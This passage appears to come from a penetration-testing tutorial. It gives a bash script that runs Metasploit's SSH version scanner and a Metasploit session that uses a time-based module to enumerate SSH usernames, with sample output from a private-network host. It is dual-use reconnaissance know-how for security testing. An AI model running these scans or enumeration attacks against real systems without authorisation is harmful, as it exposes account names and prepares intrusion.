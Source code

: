### Comprehensive Version Detection Script

```bash
#!/bin/bash

TARGET=$1

msfconsole -q -x "
workspace -a ssh_version_check;
setg RHOSTS $TARGET;
use auxiliary/scanner/ssh/ssh_version;
run;
exit"
```

## User Enumeration

### SSH User Enumeration Module

```bash
msf6 > use auxiliary/scanner/ssh/ssh_enumusers
msf6 auxiliary(scanner/ssh/ssh_enumusers) > info

Name: SSH User Enumeration
Description:
  This module uses a time-based attack to enumerate users on an SSH server.

msf6 auxiliary(scanner/ssh/ssh_enumusers) > show options

Module options (auxiliary/scanner/ssh/ssh_enumusers):

   Name              Current Setting                      Required  Description
   ----              ---------------                      --------  -----------
   CHECK_FALSE       true                                 yes       Check for false positives (random username)
   RHOSTS                                                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22                                  yes       The target port (TCP)
   THREADS           1                                   yes       The number of concurrent threads
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/common_users.txt  no        File containing usernames, one per line
   VERBOSE           false                                yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set VERBOSE true
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 192.168.1.100:22 - SSH - Checking for false positives
[*] 192.168.1.100:22 - SSH - User 'sysadmin' found
[*] 192.168.1.100:22 - SSH - User 'rudy' found
[*] 192.168.1.100:22 - SSH - User 'demo' found
[*] 192.168.1.100:22 - SSH - User 'auditor' found
[*] 192.168.1.100:22 - SSH - User 'administrator' found
[*] 192.168.1.100:22 - SSH - User 'diag' found
[*] Scanned 1 of 1 hosts (100% complete)
```

